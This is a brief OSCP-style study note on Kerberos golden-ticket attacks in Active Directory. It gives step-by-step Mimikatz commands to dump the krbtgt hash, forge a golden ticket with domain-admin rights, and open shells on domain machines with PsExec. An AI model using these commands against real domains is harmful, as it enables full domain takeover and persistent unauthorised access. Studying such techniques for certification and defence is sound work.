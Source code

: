 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/7-golden-tickets/"}
---
```


---------
- TGTs are encrypted using the hash of the krbtgt user.
- If the hash of krbtgt could be acquired one could create custom TGTs, a.k.a. golden tickets.
- Golden tickets gives permission to access the entire domain's resources
- E.g. one could create a ticket stating that any user is a member of the Domain Admins group.
- To get the krbtgt hash a Domain Admin user is required, or if the domain controller itself is compromised.
- The ticket itself can be created from anywhere without privileges.
------------
### Generate Golden Ticket Locally Using Mimikatz:
1. Get hold of krbtgt hash, e.g. by compromising DC and dumping NTLM with "lsadump::lsa /patch".
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Purge all existing kerberos tickets in Mimikatz:
```
kerberos::purge
```
4. Generate ticket:
```
kerberos::golden /user:<golden-ticket-username> /domain:<domain> /sid:<domain-sid> /krbtgt:<krbtgt-hash> /ptt
```
5. Launch new command prompt:
```
misc::cmd
```
6. Use PsExec to launch shells to arbitrary domain machines:
```
PsExec.exe \\<host> cmd.exe
```
- Important to use hostname instead of ip since we want to authenticate with kerberos.



